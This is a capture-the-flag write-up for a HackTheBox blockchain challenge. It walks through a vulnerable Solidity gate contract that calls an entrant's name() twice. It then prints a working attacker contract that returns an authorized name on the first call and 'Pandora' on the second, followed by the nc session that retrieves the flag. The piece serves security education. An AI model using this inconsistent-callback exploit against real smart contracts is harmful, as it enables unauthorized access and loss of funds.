





# Blockchain: The Art of Deception

- Date: 19.03.2023
- Link: <https://ctf.hackthebox.com/event/821>

## Environment

```
IP1=159.65.62.241:31090
IP2=159.65.62.241:32094
```

Connect to `IP2` to get the connection details:

``` shell-session
$ nc 165.232.108.200 32094
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 1

Private key     :  0xaed670f921dc66aa949185dac3a38f78638807bb0932b0340473203431678123
Address         :  0xD91878cAF52230be2645862A639487953a04Dadd
Target contract :  0x5337a93f98ae379b878fB4969Ec9370B83CF5618
Setup contract  :  0x7B59De9FdAd4b0A4B0366677A971A41E24132DBF
```

## Win Condition (Study the Smart Contract)

In the Setup contract we see that in order to solve this challenge, the last
person to enter a *high* security gate needs to be named "Pandora".

``` solidity
function isSolved() public view returns (bool) {
  return TARGET.strcmp(TARGET.lastEntrant(), "Pandora");
}
```

The Smart Contract ensures, that we shoot these shots in order (first, second,
third). [Info modifier](https://www.tutorialspoint.com/solidity/solidity_function_modifiers.htm)

``` solidity
pragma solidity ^0.8.18;


interface Entrant {
    function name() external returns (string memory);
}

contract HighSecurityGate {
    
    string[] private authorized = ["Orion", "Nova", "Eclipse"];
    string public lastEntrant;

    function enter() external {
        Entrant _entrant = Entrant(msg.sender);

        require(_isAuthorized(_entrant.name()), "Intruder detected");
        lastEntrant = _entrant.name();
    }

    function _isAuthorized(string memory _user) private view returns (bool){
        for (uint i; i < authorized.length; i++){
            if (strcmp(_user, authorized[i])){
                return true;
            }
        }
        return false;
    }

    function strcmp(string memory _str1, string memory _str2) public pure returns (bool){
        return keccak256(abi.encodePacked(_str1)) == keccak256(abi.encodePacked(_str2)); 
    }
}
```

After studying the Smart Contact in detail, we find the vulnerability is most
likely in the `enter` function:

``` solidity
function enter() external {
  Entrant _entrant = Entrant(msg.sender);

  require(_isAuthorized(_entrant.name()), "Intruder detected");
  lastEntrant = _entrant.name();
}
```

The entrant is set to a value we have control over. It is derived from `msg.sender`.
In Solidity `msg.sender` means the "The entity that sent me this request". So we
can manipulate the `_entrant.name()` by creating a Smart Contact that interacts
with the `HighSecurityGate` Contract:

```solidity
pragma solidity ^0.8.18;

# Copied from HighSecurityGate
interface Entrant { 
    function name() external returns (string memory);
}

contract Attacker is Entrant {
  bool public firstCheck = true;
  string public _name = "Orion";

  function name() external returns (string memory){
    return _name;
  }

}
```

To call the already deployed Smart Contract, I followed the example from here: https://solidity-by-example.org/calling-contract/.

Lets add a method with a parameter pointing to the TARGET contract and call
`enter()` on it:

```
import {HighSecurityGate} from "./FortifiedPerimeter.sol";

...

function callSecGate(HighSecurityGate _gate) external {
  _gate.enter();
}
```

With this we can access the Gate as "Orion".

### Prepare the Exploit

If we look at the `HighSecurityGate` again, we notice that `_entrant.name()` is
called two separate times.

``` solidity
require(_isAuthorized(_entrant.name()), "Intruder detected");
lastEntrant = _entrant.name();
```

Once to check if the entrant is authorized and once again to save the name of
the last person that entered the gate. Notice that there is no check if `_entrant.name()`
returns the same value twice. This is our attack vector :devil:.

We adjust our `Attacker` smart contact so `name` return something different the
second time it is called.

``` solidity
pragma solidity ^0.8.18;

interface Entrant {
    function name() external returns (string memory);
}

import {HighSecurityGate} from "./FortifiedPerimeter.sol";

contract Attacker is Entrant {
  bool public firstCheck = true;

  function name() external returns (string memory){
    if (firstCheck){
      firstCheck = false;
      return "Orion";
    }
    return "Pandora";
  }

  function callSecGate(HighSecurityGate _gate) external {
    _gate.enter();
  }

  // Just in case
  function reset() external {
   firstCheck = true;
  }
}
```

## Execute the Plan

To compile and deploy our Attacker Contact, I used the [Remix VSCode extension](https://marketplace.visualstudio.com/items?itemName=RemixProject.ethereum-remix).



First we connect to the RPC IP given to us by HTB (`IP1` from above):



Then we compile the Smart Contract and deploy it on the blockchain.



To execute our attack, we supply the target address to our `callSecGate()` method.

  

Result:  


With this we can collect our reward:

``` sh
nc 159.65.62.241 32094
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 3
HTB{...}
```

